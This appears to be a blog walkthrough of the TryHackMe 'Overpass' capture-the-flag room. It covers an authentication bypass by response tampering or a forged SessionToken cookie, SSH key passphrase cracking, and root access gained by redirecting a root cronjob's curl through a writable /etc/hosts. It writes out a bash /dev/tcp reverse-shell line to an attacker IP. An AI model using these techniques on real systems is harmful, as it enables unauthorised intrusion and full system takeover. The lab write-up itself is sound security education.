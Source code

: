 ```yaml
---
layout: post
published: true
title: "TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).

>Hello, today we are going to solve an exciting room Overpass, which is quite different for me than other challenges. It is worth solving this room as it contains some essential Owasp Top 10 vulnerability, i.e Broken Authentication. Also, using some automated Privilege Escalation scripts like linpeas.sh makes it more interesting.

## Enumeration
---

<h3>Nmap</h3>

![Overpass Walkthrough nmap]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.

Simultaneously starting nikto scan till then but got nothing unusual.

![OverpassWalkthrough nikto]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass writeup website]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.

<h3>Dirsearch Scan</h3>

![Overpass room dirscan]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)

Directory scanning showed many pages but /admin/ seems interesting.

<h3>Logging In via Broken Authentication</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![Overpass_tryhackme_logincode]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server into running the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass solution burpsuite]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)


Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![walkthrough_Overpass_burp]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)

Forwarding the request to get the response:

![writeup Overpass response]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get the access.<br>
Wow! we got access to the page without the credentials.

![Overpass solutions]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><b>BONUS</b></h3>

---
There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass_tryhacme_cookies]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)

Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)


Now Moving to page provides majorly 2 information:
``` 
1.There is a user name james.
2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![Overpass_walkthrough]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)

It successfully found the passphrase . Now we can log in via SSH.

![ssh_Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)

Get the user flag and submit.

![Overpass_flag]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)


<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
1.Can't run sudo -l as don't know james password.
2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![Overpass_root_curl]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass_etc_hosts]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.

Lets do this practically:

![Overpass_python_server]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)

```
1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
2. Make the same directory as "/downloads/src/buildscript.sh" 
3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
4.Now start a netcat listener locally to which the Box will connect.
5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.
```

![Overpass_flag2]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)

Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals, an I enjoyed soving it and writing its walkthrough.





<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>
